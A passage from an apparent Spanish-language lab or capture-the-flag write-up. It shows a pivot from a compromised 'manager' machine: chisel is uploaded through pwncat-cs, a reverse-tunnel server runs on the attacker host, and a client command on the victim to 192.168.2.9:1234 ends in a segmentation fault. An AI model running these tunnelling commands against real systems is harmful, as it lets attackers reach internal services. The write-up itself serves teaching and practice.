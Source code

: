 ```console
tcp                 LISTEN               0                    511                                        0.0.0.0:80                                       0.0.0.0:*                   users:(("nginx",pid=456,fd=6))
tcp                 LISTEN               0                    128                                        0.0.0.0:22                                       0.0.0.0:*
tcp                 LISTEN               0                    20                                       127.0.0.1:25                                       0.0.0.0:*
tcp                 LISTEN               0                    10                                       127.0.0.1:39577                                    0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=4))
tcp                 LISTEN               0                    5                                          0.0.0.0:4445                                     0.0.0.0:*                   users:(("smbserver.py",pid=421,fd=3))
tcp                 LISTEN               0                    511                                           [::]:80                                          [::]:*                   users:(("nginx",pid=456,fd=7))
tcp                 LISTEN               0                    20                                           [::1]:25                                          [::]:*
```

Entonces vamos a subir a la máquina víctima el binario de `chisel` utilizando la función `upload` interna que tiene `pwncat-cs`
```console
(remote) crow@manager:/tmp$
(local) pwncat$ upload chisel
./chisel ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 8.7/8.7 MB • 2.3 MB/s • 0:00:00
[16:23:04] uploaded 8.65MiB in 4.05 seconds
```

En nuestra máquina de atacante, vamos a ponernos en escucha con `chisel` por el puerto 1234.
```console
/usr/share/chisel server -p 1234 --reverse
2025/01/02 16:23:38 server: Reverse tunnelling enabled
2025/01/02 16:23:38 server: Fingerprint sH4A1KPT1pJD+8nj/WuzW8pI1xc8ILso0o3mDa5vnAc=
2025/01/02 16:23:38 server: Listening on http://0.0.0.0:1234
```

Y para mi sorpresa, en la máquina atacante obtenemos el siguiente error.
```console
(remote) crow@manager:/tmp$ ./chisel 192.168.2.9:1234 10000:127.0.0.1:10000
Segmentation fault
```

Después de probar un rato me di cuenta de lo siguiente...
- Máquina atacante:
```console
md5sum chisel
ed8b9d38fe272f2692b47292e74a0352  chisel
```
- Máquina víctima:
```console
md5sum chisel
963ec05a4084469f5397ae465fd3516f  chisel
```
